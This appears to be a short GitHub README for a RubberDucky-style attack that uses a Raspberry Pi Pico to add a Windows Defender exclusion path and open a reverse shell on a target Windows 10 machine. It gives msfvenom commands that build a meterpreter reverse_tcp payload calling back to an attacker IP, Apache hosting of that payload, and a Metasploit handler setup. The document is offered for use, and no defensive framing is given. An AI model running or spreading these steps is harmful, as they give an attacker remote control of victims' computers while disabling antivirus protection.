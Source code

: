 Windows Defender ExclusionPath + ReverseShell
=============================================

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows//x64/meterpreter/reverse_tcp lhost=<attacker IP> lport=<port> -f exe -o /var/www/html/windowsx64.exe
  
2. Run Apache Service on Kali Linux:
> $ service apache2 start
  
3. Run Metasploit on Kali Linux:
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico.
  
5. Open payload.dd, edit URL and save.
  
5. Connect RubberDucky to Target Machine.
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.PNG)
